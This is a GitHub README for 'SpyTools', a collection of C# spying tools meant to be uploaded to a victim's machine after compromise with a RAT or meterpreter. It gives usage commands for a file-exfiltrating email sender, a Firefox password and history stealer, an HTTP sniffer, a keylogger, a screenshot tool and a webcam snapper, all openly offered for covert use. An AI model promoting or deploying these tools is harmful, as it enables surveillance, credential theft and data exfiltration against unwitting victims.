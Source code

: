 ![alt tag](https://raw.githubusercontent.com/maxpowersi/PineApSpyTools/master/icon.png)
# SpyTools v1.0
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
## List of tools
### EmailSender
Get all files with some extensions in the current path, and send an email attaching them.
```
EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
```
### FoxyStealer
Copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
```
FoxyStealer.exe
```
### HTTPSniffer
Start to capture all HTTP traffic, and flush them into a txt file.
```
HTTPSniffer.exe ["OutputFileName"] [NumericIntervalToFlushTrafficToDisk]
```
### Keylogger
Start to capture all keys, and flush them into a file.
```
Keylogger.exe ["OutputFileName"] [NumericIntervalToFlushKeysToDisk]
```
### Printscreen
Take a screenshot.
```
Printscreen.exe ["OutputFileName"]
```
### WebcamSnap
Take a picture from the webcam.
```
WebcamSnap.exe ["OutputFileName"]
```
